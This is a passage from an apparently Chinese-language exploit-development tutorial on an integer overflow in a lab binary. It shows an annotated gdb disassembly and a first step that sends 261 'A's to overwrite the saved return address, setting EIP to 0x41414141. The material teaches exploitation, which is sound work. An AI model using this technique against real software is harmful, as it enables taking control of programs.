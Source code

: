 ```assembly
 0x0804850c <+110>: mov 0x804a020,%eax                    //eax = stdout
 0x08048511 <+115>: mov %eax,(%esp)                       //arg = stdout
 0x08048514 <+118>: call 0x8048380 <fflush@plt>           //fflush
 0x08048519 <+123>: lea -0x14(%ebp),%eax                  //eax = passwd_buf
 0x0804851c <+126>: mov %eax,(%esp)                       //arg = passwd_buf
 0x0804851f <+129>: call 0x8048494                        //call store_passwd_indb

 //Function Epilogue
 0x08048524 <+134>: add $0x34,%esp                        //unwind stack space
 0x08048527 <+137>: pop %edi                              //restore edi
 0x08048528 <+138>: pop %ebp                              //restore ebp
 0x08048529 <+139>: ret                                   //return
End of assembler dump.
(gdb)
```

栈分布

![2](./integer_overflow/2.png)

由于我们已经知道密码得长度是 261，并且能够绕过边界检查并允许我们覆盖位于堆栈中的返回地址。让我们通过发送一系列 A 来测试它。 

step 1：是否可以覆盖返回地址？

```$ gdb -q vuln
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*261'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*261'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```
